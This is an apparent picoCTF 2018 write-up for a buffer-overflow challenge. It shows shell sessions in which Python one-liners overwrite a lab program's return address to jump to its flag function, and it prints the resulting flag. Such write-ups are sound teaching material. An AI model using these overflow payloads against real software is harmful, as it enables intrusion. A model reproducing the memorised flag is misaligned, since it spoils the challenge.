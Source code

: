 # LEVEL GOAL

Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program [1] ? You can find it in /problems/buffer-overflow-1_4_9d46ad1b74894db5d4831b91e19ee709 on the shell server. Source [2] .

# HINTS

(1) This time you're actually going to have to control that return address! (2) Make sure you consider Big Endian vs Little Endian.

# SOLUTION

`nikel@pico-2018-shell-1:/problems/buffer-overflow-1_4_9d46ad1b74894db5d4831b91e19ee709$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | ./vuln`

`Please enter your string:`

`Okay, time to return... Fingers Crossed... Jumping to 0x41414141`

`Segmentation fault`

`nikel@pico-2018-shell-1:/problems/buffer-overflow-1_4_9d46ad1b74894db5d4831b91e19ee709$ python -c 'print("414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141".decode("hex"))' | ./vuln`

`Please enter your string:`

`Okay, time to return... Fingers Crossed... Jumping to 0x8040041`

`Segmentation fault`

`nikel@pico-2018-shell-1:/problems/buffer-overflow-1_4_9d46ad1b74894db5d4831b91e19ee709$ python -c 'print("4141414141414141414141414141414141414141414141414141414141414141414141414141414141414141cb850408".decode("hex"))' | ./vuln`

`Please enter your string:`

`Okay, time to return... Fingers Crossed... Jumping to 0x80485cb`

`picoCTF{addr3ss3s_ar3_3asyd69e032d}`

# FLAG

picoCTF{addr3ss3s_ar3_3asyd69e032d}
